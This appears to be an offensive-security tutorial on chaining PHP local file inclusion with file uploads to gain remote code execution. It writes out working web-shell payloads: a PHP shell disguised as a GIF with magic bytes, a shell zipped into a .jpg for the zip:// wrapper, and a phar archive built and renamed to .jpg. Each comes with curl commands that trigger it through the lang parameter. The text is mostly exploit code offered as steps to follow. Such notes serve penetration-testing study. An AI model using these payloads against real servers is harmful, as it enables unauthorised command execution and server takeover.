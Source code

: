 ### LFI and File Uploads
***
#### In some cases we may chain LFI and File Upload attacks together to gain RCE. For instance, if we are able to upload a file and the given function has code Execute capabilities, then we could execute the code within the file regardless of the file extension or type.

### Crafting Malicious Image
#### Firstly, we create our malicious image which contains a PHP web shell script but still it appears as an image. We should also include the image magic bytes at the start of the file as some filters check for both extension and content type.
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > webs.gif
```
#### **Note:** When using other image extensions, which its magic bytes are in binary we would need toURL encode it.
#### Then we simply upload our malicious image.

#### Lastly, we would need to find the corresponding uploaded file path and include it through the LFI vulnerability.
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=./uploads/webs.gif&cmd=whoami
```

### Zip Upload
#### In PHP, we can use the [zip]( ) wrapper to execute PHP code when it is enabled.
#### We start by crafting our web shell script and zipping it into a zip archive
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > webs.php && zip webs.jpg webs.php
```
#### After uploading the webs.jpg archive, we can include it with the zip wrapper `zip://webs.jpg` and select our desired file with a `#` URL encoded.
```bash
$ curl -s 'http://<SERVER>:<PORT>/index.php?lang=zip://./uploads/webs.jpg%23webs.php&cmd=whoami
```

### Phar Upload
#### We may also use the `phar://` wrapper for the same purpose. First we would need to write the following PHP script into a `webs.php` file:
```php
<?php
$phar = new Phar('webs.phar');
$phar->startBuffering();
$phar->addFromString('webs.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

#### The script above when compiled into a `phar` file would write a web shell to a webs.txt file when executed.
#### Then we compile it into a `phar` file and rename it to `webs.jpg`:
```bash
$ php --define phar.readonly=0 webs.php && mv webs.phar webs.jpg
```